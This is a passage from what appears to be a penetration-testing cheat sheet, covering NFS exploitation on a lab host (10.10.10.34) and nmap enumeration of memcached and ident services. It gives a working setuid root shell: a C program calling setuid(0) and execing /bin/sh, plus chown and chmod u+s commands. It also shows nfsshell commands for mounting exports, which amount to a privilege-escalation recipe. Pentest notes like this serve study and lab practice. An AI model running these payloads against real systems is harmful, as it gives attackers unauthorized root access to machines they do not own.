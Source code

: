 ```
int main(void) {
setgid(0); setuid(0);
execl(“/bin/sh”,”sh”,0); }
```
```
chown root.root ./pwnme
chmod u+s ./pwnme
```

## nfshell
* install  https://github.com/NetDirect/nfsshell
```
root@kali:~/Downloads/nfsshell-master# apt-get install libreadline-dev libncurses5-dev
root@kali:~/Downloads/nfsshell-master# make
```
* use
```
root@kali:~# nfsshell
nfs> host 10.10.10.34
nfs> export
nfs> mount /loquefuere
```

# memcached
### 11211
---
memcached is a general-purpose distributed memory caching system. It is often used to speed up dynamic database-driven websites by caching data and objects in RAM to reduce the number of times an external data source (such as a database or API) must be read.
## nmap nse

```
memcached-info
```

# ident
### 113
---
it gives you usernames that are connected to a tcp port.
https://en.wikipedia.org/wiki/Ident_protocol

## nmap
```
auth-owners.nse
```

